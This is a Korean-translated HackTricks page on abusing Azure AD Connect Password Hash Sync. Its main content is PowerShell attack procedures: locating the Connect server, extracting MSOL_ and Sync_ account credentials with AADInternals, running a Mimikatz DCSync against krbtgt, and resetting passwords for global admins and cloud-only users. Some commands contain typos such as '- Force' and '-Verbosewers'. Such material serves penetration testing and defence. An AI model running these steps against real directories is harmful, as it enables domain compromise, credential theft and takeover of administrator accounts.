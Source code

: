 # Az - PHS - Password Hash Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **비밀번호 해시 동기화**는 하이브리드 아이덴티티를 달성하기 위해 사용되는 로그인 방법 중 하나입니다. **Azure AD Connect**는 온프레미스 Active Directory 인스턴스에서 클라우드 기반 Azure AD 인스턴스로 사용자의 비밀번호 해시의 해시를 동기화합니다.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

이는 온프레미스 AD를 Azure AD와 동기화하는 데 사용되는 **가장 일반적인 방법**입니다.

모든 **사용자**와 **비밀번호 해시의 해시**가 온프레미스에서 Azure AD로 동기화됩니다. 그러나 **평문 비밀번호**나 **원본** **해시**는 Azure AD로 전송되지 않습니다.\
또한, **내장** 보안 그룹(예: 도메인 관리자 등)은 Azure AD로 **동기화되지 않습니다**.

**해시 동기화**는 매 **2분**마다 발생합니다. 그러나 기본적으로 **비밀번호 만료** 및 **계정** **만료**는 Azure AD에서 **동기화되지 않습니다**. 따라서 **온프레미스 비밀번호가 만료된**(변경되지 않은) 사용자는 이전 비밀번호를 사용하여 **Azure 리소스에 계속 접근할 수 있습니다**.

온프레미스 사용자가 Azure 리소스에 접근하려고 할 때, **인증은 Azure AD에서 이루어집니다**.

**PHS**는 **Identity Protection** 및 AAD 도메인 서비스와 같은 기능에 필요합니다.

## Pivoting

PHS가 구성되면 일부 **특권 계정**이 자동으로 **생성됩니다**:

* 계정 **`MSOL_<installationID>`**는 온프레미스 AD에서 자동으로 생성됩니다. 이 계정은 **디렉터리 동기화 계정** 역할이 부여됩니다(자세한 내용은 [문서](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)를 참조). 이는 이 계정이 **온프레미스 AD에서 복제(DCSync) 권한을 가지고 있음을 의미합니다**.
* 계정 **`Sync_<name of on-prem ADConnect Server>_installationID`**가 Azure AD에서 생성됩니다. 이 계정은 Azure AD에서 **모든 사용자**(동기화된 사용자 또는 클라우드 전용 사용자)의 비밀번호를 **재설정할 수 있습니다**.

이 두 개의 특권 계정의 비밀번호는 **Azure AD Connect가 설치된 서버의 SQL 서버에 저장됩니다**. 관리자는 이러한 특권 사용자의 비밀번호를 평문으로 추출할 수 있습니다.\
데이터베이스는 `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`에 위치합니다.

구성 정보를 테이블 중 하나에서 추출할 수 있으며, 하나는 암호화되어 있습니다:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**암호화된 구성**은 **DPAPI**로 암호화되어 있으며, 온프레미스 AD의 **`MSOL_*`** 사용자 비밀번호와 AzureAD의 **Sync\_\*** 비밀번호를 포함하고 있습니다. 따라서 이를 손상시키면 AD와 AzureAD로 권한 상승이 가능합니다.

이 자격 증명이 저장되고 복호화되는 방법에 대한 [전체 개요를 이 강의에서 확인할 수 있습니다](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

**Azure AD Connect가 설치된 서버**가 도메인에 가입되어 있다면(문서에서 권장), 다음과 같이 찾을 수 있습니다:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\* 악용하기
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
이 자격 증명을 얻기 위해 [**adconnectdump**](https://github.com/dirkjanm/adconnectdump)를 사용할 수도 있습니다.
{% endhint %}

### Sync\_\* 악용하기

**`Sync_*`** 계정을 손상시키면 모든 사용자의 **비밀번호를 재설정**할 수 있습니다(전역 관리자 포함).
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
클라우드 사용자만의 **비밀번호를 수정하는 것도 가능합니다** (예상치 못한 경우에도).
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
사용자의 비밀번호를 덤프하는 것도 가능합니다.

{% hint style="danger" %}
또 다른 옵션은 **서비스 주체에 특권 권한을 할당하는 것**입니다. **Sync** 사용자는 **권한**을 가지고 있으며, 그런 다음 **그 서비스 주체에 접근하는 것**이 권한 상승의 방법이 될 수 있습니다.
{% endhint %}

### 원활한 SSO

PHS와 함께 원활한 SSO를 사용할 수 있으며, 이는 다른 남용에 취약합니다. 확인해 보세요:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 참고자료

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
